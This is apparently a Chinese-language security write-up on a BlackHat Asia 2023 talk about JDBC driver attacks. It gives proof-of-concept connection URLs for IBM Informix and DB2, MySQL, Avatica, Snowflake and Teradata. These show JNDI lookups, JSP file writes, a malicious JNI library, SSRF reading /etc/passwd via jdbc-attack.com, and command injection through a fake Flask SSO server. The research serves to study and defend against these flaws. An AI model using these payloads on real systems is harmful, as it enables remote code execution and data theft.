

BlackHat Asis 2023 上 pyn3rd 再次分享了该攻击技术的新成果。
议题分 5 个部分，介绍 JDBC 的攻击利用方法
- Abused Connection Resource，滥用连接资源
- Arbitrary Log File Writing，任意日志文件写入
- Lexical Syntax Compatibility，
- Unchecked Initialization Class，不安全的类初始化
- Incorrect Response Disposal，错误的响应转发
IBM Informix
Informix 是 IBM 旗下的数据库产品。
Infomix 支持从 LDAP 中获取数据库服务端主机的信息，见 Dynamically reading the sqlhosts file。可通过如下参数指定连接类型为 LDAP
SQLH_TYPE=LDAPLDAP_URL=ldap://host-name:port-number，LDAP 服务的主机名和端口号LDAP_IFXBASE=Informix-base-DNLDAP_USER=userLDAP_PASSWD=password
测试环境
com.ibm.informix:jdbc:4.10.14
@Test
public void jndi() throws SQLException {
String url =
"jdbc:informix-sqli:informixserver=value;SQLH_TYPE=LDAP;LDAP_URL=ldap://127.0.0.1:1389;LDAP_IFXBASE=cn=evilClass;";
DriverManager.getConnection(url);
}触发位置位于 com.informix.jns.LdapSqlhosts#getServer，[1]。
public ServerInfo getServer(String sname) throws IfxJNSException {
String nsNettype = "default_nettype";
String nsHostname = "default_hostname";
String nsService = "default_service";
String nsOptions = "default_options";
try {
SearchControls constraints = new SearchControls();
constraints.setSearchScope(LDAP_SCOPE0);
String lbase = "cn=" + sname + "," + this.ldap_sqhDn;
NamingEnumeration<SearchResult> results = this.sqhctx.search(lbase, LDAP_FILTER, constraints); // [1]修复
从测试结果看，当前最新版本的 com.ibm.informix:jdbc:4.50.10 已经不支持 LDAP 的方式获取 sqlhosts 信息了，具体见如下代码，会直接抛出异常。
public Sqlhosts(Properties sqhenv) throws IfxJNSException {
String stype = sqhenv.getProperty("SQLH_TYPE", "FILE");
if (stype.equalsIgnoreCase("FILE")) {
this.fileSqlh = new FileSqlhosts(sqhenv);
} else {
throw new IfxJNSException("Only FILE type is supported for SQLhost lookup.");
}
}IBM DB2 JCC
相比以往议题中的内容，作者提到了可通过如下属性进行利用，
- traceFile：根据文档，它可以指定日志文件的存储位置，可以配合以下属性进行配置
- traceLevel：日志级别
- traceFileAppend：是否以附加模式写入
- pluginClassName：没能在官网的文档中找到这个属性的介绍，但是代码中确实存在
DB2BaseDataSource#getPluginClassName
文件写入
PPT 中描述的，使用如下代码，记录日志到指定路径
@Test
public void db2log() throws SQLException {
String url =
"jdbc:db2://216.127.190.23:50000/db:password=${Runtime.getRuntime().exec(\"test\")};traceLevel=com.ibm.db2.jcc.DB2BaseDataSource.TRACE_ALL;traceFileAppend=false;traceFile=1.jsp;";
DriverManager.getConnection(url);
}但是 password 属性的内容会被记录成 ****，可以改为使用 user
@Test
public void db2log() throws SQLException {
String url =
"jdbc:db2://216.127.190.23:50000/db:user=${Runtime.getRuntime().exec(\"test\")};traceLevel=com.ibm.db2.jcc.DB2BaseDataSource.TRACE_ALL;traceFileAppend=false;traceFile=1.jsp;";
DriverManager.getConnection(url);
}类初始化
对于参数 pluginClassName，用户可通过它指定自定义类，并进行初始化和构造方法调用。那么目标环境中有如下一个类
public class EvilObject {
public EvilObject () throws NamingException, IOException {
javax.naming.InitialContext.doLookup("ldap://127.0.0.1:1389/EvilObject");
}
}就可以通过下面的 URL 进行利用
@Test
public void db2plugin() throws SQLException {
String url =
"jdbc:db2://216.127.190.23:50000/db:pluginClassName=com.trganda.EvilObject;";
DriverManager.getConnection(url);
}对于真实场景，作者提到了另一个可利用的类 com.sun.security.auth.module.UnixSystem(Linux)/com.sun.security.auth.module.NTSystem(Windows)，构造方法如下
public UnixSystem() {
System.loadLibrary("jaas_unix");
getUnixInfo();
}它会加载 JRE 中的 lib 文件『Mac 中为 libjaas_unix.dylib』
docker run -h db2server --name db2server --restart=always --detach --privileged=true -p 50000:50000 --env-file .env_list -v database:/database icr.io/db2_community/db2那么如果 libjaas_unix.dylib 文件可控，则可以通过 JNI 编写如下恶意库进行利用.
#include <stdlib.h>
#include <string>
#include "jni.h"
using namespace std;
jint JNI_OnLoad(JavaVM* vm, void* reserved) {
JNIEnv* env;
vm->AttachCurrentThread((void**)&env, NULL);
jclass system_clazz = env->FindClass("java/lang/System");
jmethdID get_property_method = env->GetStaticMethodID(system_clazz, "getProperty", "(Ljava/lang/String;)Ljava/lang/String;");
jboolean jsCopy;
const char* cmd = env->GetStringUTFChars(env->NewStringUTF("open -a calculator"), &jsCopy);
string ee;
ee += cmd;
system(ee.c_str());
return JNI_VERSION_1_2;
}但这个利用场景多少有点多余，作者举了更真实的案例，见 CVE-2022-36364
MySQL
作者提到对于 MySQL JDBC Driver 的 setBlob 方法可利用宽字节进行 SQL 注入（利用难度很大）。思路和宽直接注入的方法是一样，见下图

以下为 Poc 代码。
@Test
public void sqli() throws SQLException, IOException {
String url =
"jdbc:mysql://127.0.0.1:3306/db?user=root&password=trgadna&useUnicode=true&characterEncoding=gbk&allowMultiQueries=true";
Connection conn = DriverManager.getConnection(url);
PreparedStatement ps = conn.prepareStatement("INSERT INTO t1 (size, data) VALUES (?, ?)");
File file = new File("exp.jsp");
FileInputStream fis = new FileInputStream(file);
ps.setInt(1, (int) file.length());
ps.setBinaryStream(2, fis);
ps.execute();
fis.close();
}Apache Calcite Avatica
Avatica 是一款开源的数据库驱动构建框架，用于构建 JDBC 或 ODBC Driver。
CVE-2022-36364
Avatica 的 JDBC Client 中有一个参数，httpclient_impl，可以指定自定义类。并通过参数 url 的内容，调用相应的构造方法。
相关代码位于 org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl#instantiateClient，[2]
private AvaticaHttpClient instantiateClient(String className, URL url) {
try {
Class<?> clz = Class.forName(className);
Constructor<?> constructor = clz.getConstructor(URL.class);
Object instance = constructor.newInstance(Objects.requireNonNull(url)); // [2]
return AvaticaHttpClient.class.cast(instance);
} catch (Exception e) {
throw new RuntimeException("Failed to construct AvaticaHttpClient implementation "
+ className, e);
}
}以下为一个 SSRF 的 Poc 代码，借助 sun.security.provider.PolicyFile 发起请求读取远程文件。
@Test
public void ssrf() throws SQLException {
DriverManager.registerDriver(new Driver());
String url = "jdbc:avatica:remote:url=https://jdbc-attack.com?file=/etc/passwd;httpclient_impl=sun.security.provider.PolicyFile";
DriverManager.getConnection(url);
}PolicyFile
sun.security.provider.PolicyFile 中的触发点位于 PolicyFile#init，[3]
private boolean init(URL policy, PolicyInfo newInfo) {
boolean success = false;
PolicyParser pp = new PolicyParser(expandProperties);
InputStreamReader isr = null;
try {
// read in policy using UTF-8 by default
//
// check non-standard system property to see if
// the default encoding should be used instead
if (notUtf8) {
isr = new InputStreamReader
(PolicyUtil.getInputStream(policy));
} else {
isr = new InputStreamReader
(PolicyUtil.getInputStream(policy), "UTF-8"); // [3]
}
pp.read(isr);此外 PPT 中还提到了另外三个类
com.sun.media.sound.SF2Soundbankjavax.swing.JEditorPanejdk.internal.loader.FileURLMapper
Snowflake
参考 CVE-2023-30535。
Snakeflake JDBC Driver 支持单点登录功能，但在获取响应内容后直接拼接并执行命令，没有任何过滤。
@Override
public void openBrowser(String ssoUrl) throws SFException {
try {
if (Desktop.isDesktopSupported()) {
URI uri = new URI(ssoUrl);
Desktop.getDesktop().browse(uri);
} else {
Runtime runtime = Runtime.getRuntime();
OS os = Constants.getOS();
if (os == OS.MAC) {
runtime.exec("open " + ssoUrl);
} else {
runtime.exec("xdg-open " + ssoUrl);
}
}
} catch (IOException | URISyntaxException var4) {
throw new SFException(var4, ErrorCode.NETWORK_ERROR, new Object[]{var4.getMessage()});
}
}Poc 代码如下
@Test
public void jndi() throws SQLException {
String url =
"jdbc:snowflake://jdbc-attack.com/?user=trganda&passwd=trganda&db=db&authenticator=externalbrowser";
DriverManager.getConnection(url);
}当开启验证方式为 externalbrowser，snowflake 会发起如下请求 [4]，见 SessionUtilExternalBrowser#getSSOUrl
https://jdbc-attack.com/session/authenticator-request
并解析响应中的 json 数据 [5]，从中获取 ssoUrl 内容 [6]，拼接后造成命令注入。
private String getSSOUrl(int port) throws SFException, SnowflakeSQLException {
try {
String serverUrl = this.loginInput.getServerUrl();
String authenticator = this.loginInput.getAuthenticator();
URIBuilder fedUriBuilder = new URIBuilder(serverUrl);
fedUriBuilder.setPath("/session/authenticator-request"); // [4]
URI fedUrlUri = fedUriBuilder.build();
HttpPost postRequest = this.handlers.build(fedUrlUri);
ClientAuthnDTO authnData = new ClientAuthnDTO();
Map<String, Object> data = new HashMap();
data.put(ClientAuthnParameter.AUTHENTICATOR.name(), authenticator);
data.put(ClientAuthnParameter.ACCOUNT_NAME.name(), this.loginInput.getAccountName());
data.put(ClientAuthnParameter.LOGIN_NAME.name(), this.loginInput.getUserName());
data.put(ClientAuthnParameter.BROWSER_MODE_REDIRECT_PORT.name(), Integer.toString(port));
data.put(ClientAuthnParameter.CLIENT_APP_ID.name(), this.loginInput.getAppId());
data.put(ClientAuthnParameter.CLIENT_APP_VERSION.name(), this.loginInput.getAppVersion());
authnData.setData(data);
String json = this.mapper.writeValueAsString(authnData);
StringEntity input = new StringEntity(json, StandardCharsets.UTF_8);
input.setContentType("application/json");
postRequest.setEntity(input);
postRequest.addHeader("accept", "application/json");
String theString = HttpUtil.executeGeneralRequest(
postRequest,
this.loginInput.getLoginTimeout(),
this.loginInput.getAuthTimeout(),
this.loginInput.getSocketTimeout(),
0,
this.loginInput.getHttpClientSettingsKey()
);
logger.debug("authenticator-request response: {}", new Object[]{theString});
JsonNode jsonNode = this.mapper.readTree(theString); // [5]
if (!jsonNode.path("success").asBoolean()) {
logger.debug("response = {}", new Object[]{theString});
String errorCode = jsonNode.path("code").asText();
throw new SnowflakeSQLException("08001", Integer.valueOf(errorCode), new Object[]{jsonNode.path("message").asText()});
} else {
JsonNode dataNode = jsonNode.path("data");
this.proofKey = dataNode.path("proofKey").asText();
return dataNode.path("ssoUrl").asText(); // [6]
}
} catch (URISyntaxException | IOException var14) {
throw new SFException(var14, ErrorCode.NETWORK_ERROR, new Object[]{var14.getMessage()});
}
}那么再伪造一个服务器即可，代码如下
from flask import Flask,jsonify,request
app = Flask(__name__)
@app.route('/session/authenticator-request', method = ['POST'])
def ssoAuth():
if (request.method == 'POST'):
data = {"success": "true", "data": {"proofKey": "foo", "ssoUrl": "calc"}}
return jsonify(data)
if __name__ == '__main__':
app.run('0.0.0.0', debug=True, port=443, ssl_context=('jdbc-attack.com.pem', 'jdbc-attack.com.key'))本地复现，只需构造一个证书并在 hosts 文件中将 jdbc-attack.com 指向 127.0.0.1.
Teradata
与 Snowflake 十分类似，Treadata JDBC Driver 中有几乎一样的问题。Treadata 中有一个参数 BROWSER，
- BROWSER：指定一个自定义命令，用于打开浏览器进行身份验证，需要与
LOGMECH=BROWSER配合使用。该参数的使用有如下要求- 忽略 JDBC URL 中的 User、 Password 和 LOGDATA 参数。
- 仅支持 Windows 和 macOS。
- Teradata 数据库必须使用联合身份验证的身份提供程序信息。
- 此功能从 Teradata Advanced SQL Engine 17.10 和 Teradata JDBC Driver 17.10.00.01 版本开始支持
触发点的上下文代码如下，位于 com.teradata.jdbc.jdbc.GenericTeradataConnection#GenericTeradataConnection。在 [7] 中获取 BROWSER 参数内容，判断其是否为空，是的话则采用默认的
cmd /c start "title" "PLACEHOLDER"（Windows）open PLACEHOLDER（macOS）
在 [8] 向服务器发起握手请求，并判断返回的内容，注意判断条件 m_gtwConfig 、getIdentityProviderURL()、getIdentityProviderClientID() 的返回内容都不能为空。并根据服务器返回的 providerURL，拼接上 /.well-known/openid-configuration，发起如下请求 [9]
https?://<host>//.well-known/openid-configuration
响应内容需要为 json 格式并包含 authorization_endpoint 和 token_endpoint。之后在客户端打开一个临时的 HTTP 服务，监听在本地的随机端口上，并开启路由 http://localhost/openid-callback（下面粘贴的代码省略了这部分逻辑）。
最后再执行 BROWSER 中的参数。
protected GenericTeradataConnection(String var1, String var2, String var3, URLParameters var4) throws SQLException {
// ...
if ("BROWSER".equalsIgnoreCase(this.urlParams.getLogMech())) {
label189: {
// ...
String var6 = this.urlParams.getBrowser(); // [7]
String var8;
if (var6 == null || var6.length() == 0) {
// ...
}
GenericTeradataConnection var32 = makeLogMechNoneConnection(this); // [8]
if (var32.m_gtwConfig != null && var32.m_gtwConfig.getIdentityProviderURL() != null && var32.m_gtwConfig.getIdentityProviderClientID() != null) {
var8 = var32.m_gtwConfig.getIdentityProviderURL();
String var9 = var32.m_gtwConfig.getIdentityProviderClientID();
// ...
var8 = var8.replaceFirst("/+$", "");
if (var8.length() != 0 && var9.length() != 0) {
String var10 = "/.well-known/openid-configuration";
if (!var8.toLowerCase().endsWith(var10)) {
var8 = var8 + var10;
if (this.log.isDebugEnabled()) {
this.log.debug("Modified sIdProURL=" + var8);
}
}
String var11 = Utility.doHttpRequest(this.urlParams, this.log, "GET", var8, (String[][])null, (byte[])null, true, " ", new int[]{200}).sBody; // [9]
String var12 = Utility.getStringFromJSON("authorization_endpoint", var11, "TJ1544", var8);
String var13 = Utility.getStringFromJSON("token_endpoint", var11, "TJ1544", var8);
// ... listening on random port of localhost
var6 = var6.replaceAll("PLACEHOLDER", var12 + "?response_type=code" + "&client_id=" + Utility.safeForURL(var9) + "&redirect_uri=" + Utility.safeForURL(var20) + "&code_challenge=" + Utility.safeForURL(var15) + "&code_challenge_method=S256" + "&scope=" + Utility.safeForURL(var21));
if (this.log.isTimingEnabled()) {
this.log.timing("Launching browser " + var6);
}
Process var22;
try {
var22 = Runtime.getRuntime().exec(var6); // [10]这里重要的一步是满足 [8] 中描述的条件，所以需要伪造一个 Teradata 服务端，返回特定数据。具体的攻击步骤如下：
- 攻击者伪造一个 Treadata 服务。
- 控制 JDBC URL，连接伪造的服务，并告知客户端，开启 OIDC。
- 客户端访问 OIDC 服务（此处还是一个 Bind SSRF）
- 客户端执行 JDBC URL BROWSER 参数中的命令
@Test
public void cmd() throws SQLException {
String url =
"jdbc:teradata://127.0.0.1/DBS_PORT=10250,LOGMECH=BROWSER,BROWSER='open -a calculator',TYPE=DEFAULT,COP=OFF,TMODE=TERA,LOG=DEBUG";
DriverManager.getConnection(url);
}伪造 Teradata Advanced Database Server
通过分析代码，对响应内容的解析位于 com.teradata.jdbc.jdbc.GenericLogonController#run 方法中。
Teradata Database 不免费提供，所以不太好通过抓个包来快速伪造一个服务器。暂时只能通过分析代码的方式来解决。
分析 com.teradata.jdbc.jdbc.GenericLogonController#run 的代码逻辑，响应包 payload 的处理会细分至 TDPacket [11]
public void run() throws SQLException {
TDPacket var2 = this.m_con.createPacket(1);
// ...
Parcel var5;
while((var5 = var2.nextParcel()) != null) { // [11]查看 TDPacket#nextParcel 方法，逻辑结构为 switch 语句，根据对 [8] 中判断条件的分析知道，响应包应该解析为 GtwConfigParcel 类对象的
public Parcel nextParcel() throws SQLException {
Object var3 = null;
if (this.packet != null && this.currentPosition < this.m_nReadLimit) {
short var4 = Parcel.trueFlavor(this.buffer.getShort(this.currentPosition)); // short 2 bytes
this.log.debug("ParcelFactory:nextParcel flavor value: " + var4);
long var1;
switch (var4) {
// ...
case 165: // 00 A5
this.log.debug("ParcelFactory: creating a GtwConfigParcel");
var1 = System.currentTimeMillis();
this.buffer.position(this.currentPosition);
var3 = new GtwConfigParcel(this.buffer, this.m_con); // parsing GtwConfigParcel
this.currentPosition += ((Parcel)var3).getLength();
this.log.debug("parcelfactory GtwConfig create time: " + (System.currentTimeMillis() - var1));
break;GtwConfigParcel
GtwConfigParcel 类对象的构造方法如下
public GtwConfigParcel(TDPacketStream var1, GenericTeradataConnection var2) throws SQLException {
super(var2);
this.flavorPosition = var1.position();
this.setFlavor(var1.getShort());
this.setLength(var1.getShort());
if (var1.getInt() == 1) {
this.determineFeatureSupport(var1, this.flavorPosition + this.length);
}
}由前面的分析 [8] 知道，需要 m_sIdentityProviderURL 和 m_sIdentityProviderClientID 两个属性，相关代码位于 determineFeatureSupport，步进为 short，即 2 个比特。
private void determineFeatureSupport(TDPacketStream var1, int var2) throws SQLException {
int var3;
short var5;
for(; var1.position() + 4 <= var2; var1.position(var3 + var5)) {
var3 = var1.position();
short var4 = var1.getShort();
var5 = var1.getShort();
// ...
switch(var4) {
case 15:
this.m_sIdentityProviderClientID = var1.getStringUTF8(var1.getUnsignedShort());
this.m_sIdentityProviderURL = var1.getStringUTF8(var1.getUnsignedShort());
break;从中可以看到，payload 的结构为 flag (2 byte) + payload length (2 byte) + m_sIdentityProviderClientID + m_sIdentityProviderURL，字符串类型数据由一个前缀 (2 byte)，指定后续字符串内容的长度。
补充 ConfigRspParcel，和 AuthMechParcel 应该就可以了
Header > com.teradata.jdbc.jdbc_4.io.LanHeader
Length 52
version 1 byte
msgType 1 byte
kind 1 byte
msgLenHigh 2 byte
byteVar 1 byte
wordVar 2 byte
msgLenLow 2 byte
跳过 6 byte
corelationTag 4 byte
sessionNo 4 byte
authentication[] 8 byte
requestNo 4 byte
unionGTW 1 byte
hostCharSet 1 byte
跳过 1 byte
m_nControlDataLength 从第41个字节开始的后4个字节
Payload GtwConfigParcel
flavor 2 byte 00 A5
length 2 byte payload length
unknown 4 byte 00 00 00 01 -> determineFeatureSupport
self-defining feature 2 byte 00 0F
self-defining feature length 2 byte
unsigned short length 2 byte
string (m_sIdentityProviderClientID)
unsigned short length 2 byte
string (m_sIdentityProviderURL)